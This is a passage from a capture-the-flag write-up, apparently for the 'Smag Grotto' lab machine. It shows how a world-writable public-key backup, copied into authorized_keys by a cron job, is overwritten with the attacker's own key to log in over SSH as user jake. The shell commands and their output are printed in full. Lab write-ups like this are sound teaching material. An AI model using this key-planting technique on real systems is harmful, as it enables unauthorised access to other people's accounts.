 ```
One interesting thing here is that we have a cron task that copy ```/opt/.backups/jake_id_rsa.pub.backup``` to ```/home/jake/.ssh/authorized_keys```. The copied file is probably a public SSH key. After a little bit of research, I found something interesting about SSH public keys here : https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/. As I thought, it is possible to add our own public key to the authorized_keys file to then connect to the target without any password.  

So let's check if we can write to the ```/opt/.backups/jake_id_rsa.pub.backup```file with ```ls -l /opt/.backups/jake_id_rsa.pub.backup```.  
```
www-data@smag:/var/www/development.smag.thm$ ls -l /opt/.backups/jake_id_rsa.pub 
-rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup
```

And we see that everybody can write to this file... Now we just have to create our own SSH keys and then copy our own public key to this file to connect with SSH as user jake. To generate our own keys, we need to use ```ssh-keygen -f jake_id_rsa```.  
```
attacker@AttackBox:~/Smag_Grotto$ ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:Cf/fnbtB/zPfLmbbIFDzDO1wComNHtxr10+JYvWVPRI attacker@AttackBox
The key's randomart image is:
+---[RSA 3072]----+
|             E   |
|       . = . .. o|
|      . = = =oooo|
|       + o +.@+ +|
|        S +oo.=+.|
|         o.o. .o.|
|          . . ..o|
|           . o+*=|
|            .ooB&|
+----[SHA256]-----+
```


We now have two files :
- id_rsa -> the private key we are going to use to connect with SSH.
- id_rsa.pub -> the public key we need to copy to the ```/opt/.backups/jake_id_rsa.pub.backup``` file.  

I read the content of the public key file on my computer, and then I use ```echo '<MY PUBLIC KEY>' > /opt/.backups/jake_id_rsa.pub.backup``` on the target machine. Also, don't forget to set the right permissions for the private SSH key with ```chmod 600 jake_id_rsa```. And then we can connect with SSH as jake to the machine with ```ssh jake@10.10.121.229 -i jake_id_rsa```.  
```
attacker@AttackBox:~/Smag_Grotto$ chmod 600 id_rsa
attacker@AttackBox:~/Smag_Grotto$ ssh jake@10.10.121.229 -i id_rsa 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)
